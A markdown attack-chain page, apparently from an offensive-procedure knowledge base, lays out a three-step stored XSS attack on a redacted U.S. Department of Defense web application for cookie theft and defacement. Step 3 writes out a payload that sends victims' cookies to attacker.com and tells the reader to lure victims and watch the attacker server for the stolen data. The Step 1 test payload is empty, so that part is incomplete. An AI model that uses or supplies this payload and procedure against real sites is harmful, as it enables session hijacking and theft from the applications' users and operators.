

# Stored XSS in U.S. DoD Application for Cookie Theft and Site Defacement

Multi-stage attack chain demonstrating a complete stored XSS workflow on a U.S. Department of Defense web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools (e.g., Chrome DevTools)
- Optional: Proxy tool like Burp Suite for payload testing

### Target Environment

- Web platform
- Access to the DoD application at https://███
- Authentication as a user (military personnel for 'Year Group' feature)

### Initial Access Requirements

- Valid user credentials for the application
- Network access to the DoD domain
- No prior elevated access needed; exploits user-level input fields

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Input
procedure: [[procedures/Inject-Stored-XSS-Payload-in-DoD-App]]

**Objective**: Locate the unsanitized input field, such as the 'Year Group (Military Only)' parameter, and inject a test payload to confirm stored XSS.

**Instructions**: Navigate to the vulnerable feature in the application. Use browser developer tools to inspect form fields. Enter a simple test payload like `` into the input field (e.g., Year Group entry) and submit the form.

**Expected Output**: The payload is stored without sanitization and persists on the server.

**Success Indicators**:
- No immediate error on submission
- Payload visible in application data upon refresh or view

### Step 2: Store and Persist Malicious Script
procedure: [[procedures/Trigger-XSS-Execution-in-Victim-Browser]]

**Objective**: Ensure the injected script is stored and rendered in a viewable page for other users, setting up execution when victims access the content.

**Instructions**: After injection, verify storage by accessing the page or feature where the data is displayed (e.g., a dashboard or report view). If using a proxy, intercept and modify requests to craft the payload.

**Expected Output**: Script embedded in the HTML response when the stored content is loaded.

**Success Indicators**:
- Script appears in page source without encoding
- Alert or test execution on self-view if reflected

### Step 3: Execute and Exploit for Impact
procedure: [[procedures/Exploit-XSS-for-Cookie-Theft-and-Defacement]]

**Objective**: Lure or wait for a victim to view the infected page, triggering JavaScript execution to steal session cookies, send requests, prompt downloads, or deface the site.

**Instructions**: Replace test payload with malicious JavaScript, e.g., `document.location='http://attacker.com/steal?cookie='+document.cookie`. Share the link or wait for natural access. Monitor attacker server for exfiltrated data.

**Expected Output**: Victim's browser executes the script, sending cookies to attacker-controlled endpoint.

**Success Indicators**:
- Cookies received on attacker server
- Arbitrary requests or defacement observed in victim session

## Attack Chain Summary

### Key Achievements

1. Successful payload injection into stored field without detection
2. Persistent script execution across user sessions
3. Achievement of high-impact goals like session hijacking and site manipulation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T12:00:00Z*
